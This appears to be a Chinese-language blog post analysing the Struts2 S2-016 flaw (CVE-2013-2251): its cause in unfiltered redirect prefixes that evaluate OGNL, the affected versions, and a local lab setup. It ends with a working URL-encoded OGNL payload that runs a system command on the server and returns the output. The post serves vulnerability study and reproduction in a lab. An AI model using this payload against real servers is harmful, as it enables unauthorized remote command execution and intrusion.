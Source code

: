 ```yaml
---
layout: post
title: "S2-016"
subtitle: 'S2-016漏洞分析'
author: "taomujian"
header-style: text
tags:
  - Struts2 漏洞分析
---
```


## 前言

> 这是Struts系列第十篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-016漏洞,又名CVE-2013-2251漏洞

> 在Struts2框架中,DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀,这些导航或者前缀后面可以跟OGNL表达式,但Struts2并没有对这些前缀做过滤,所以可以执行恶意OGNL表达式执行系统命令.DefaultActionMapper类支持"method:"、"action:"、"redirect:"、"redirectAction:"这些方法

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-016)

#### 漏洞成因

> 在Struts2框架中,DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀,这些导航或者前缀后面可以跟OGNL表达式,但Struts2并没有对这些前缀做过滤,所以可以执行恶意OGNL表达式执行系统命令.DefaultActionMapper类支持"method:"、"action:"、"redirect:"、"redirectAction:"这些方法

#### 漏洞影响范围

>  Struts 2.0.0 - Struts 2.3.15

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 执行命令

```java
?redirect%3A%24%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%20%7B%22id%22%7D)).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader%20(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23matt%3D%20%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse')%2C%23matt.getWriter().println%20(%23e)%2C%23matt.getWriter().flush()%2C%23matt.getWriter().close()%7D
```

